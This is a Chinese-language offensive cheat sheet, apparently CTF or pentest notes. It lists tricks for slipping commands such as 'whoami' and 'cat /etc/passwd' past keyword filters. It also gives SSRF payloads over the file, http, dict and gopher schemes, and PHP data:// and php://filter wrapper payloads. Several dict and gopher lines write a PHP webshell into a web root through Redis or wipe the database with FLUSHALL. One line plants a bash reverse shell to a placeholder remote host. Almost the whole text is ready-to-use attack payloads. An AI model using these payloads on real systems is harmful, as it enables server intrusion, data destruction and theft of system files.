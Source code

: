 - 绕过关键词过滤

```shell
who'am'i
c"a"t /etc/pass'w'd
wh\o\a\mi
who``ami
who$()ami

x=/et000c/pa000sswd;echo ${x//000/}

# 用别的命令 如
base64 /etc/passwd
```

## SSRF

- `file` 协议

```
file:///etc/passwd
file://C:/path/to/file
```

- `http` 协议

```
http://127.0.0.1:22
http://192.168.1.123:80
http://10.10.10.10:443
```

- `dict` 协议（操作redis）

```
dict://127.0.0.1:3306
dict://127.0.0.1:6379/FLUSHALL
dict://127.0.0.1:6379/CONFIG SET dir /var/www/html
dict://127.0.0.1:6379/CONFIG SET dbfilename file.php
dict://127.0.0.1:6379/SET x "<\x3Fphp eval($_GET[0])\x3F>"
dict://127.0.0.1:6379/SAVE
```

- `gopher` 协议（操作redis）

```
gopher://127.0.0.1:6379/_config set dir /var/www/html
gopher://127.0.0.1:6379/_config set dbfilename reverse.php
gopher://127.0.0.1:6379/_set payload "<?php shell_exec('bash -i >& /dev/tcp/REMOTE_IP/REMOTE_PORT 0>&1');?>"
gopher://127.0.0.1:6379/_save
```


```
data://text/plain,<?=phpinfo();?>
data://text/plain;base64,PD89cGhwaW5mbygpOz8%2B

php://input
<?=phpinfo();?>

php://filter/convert.base64-encode/resource=key.php
php://filter/string.rot13/resource=key.php
```
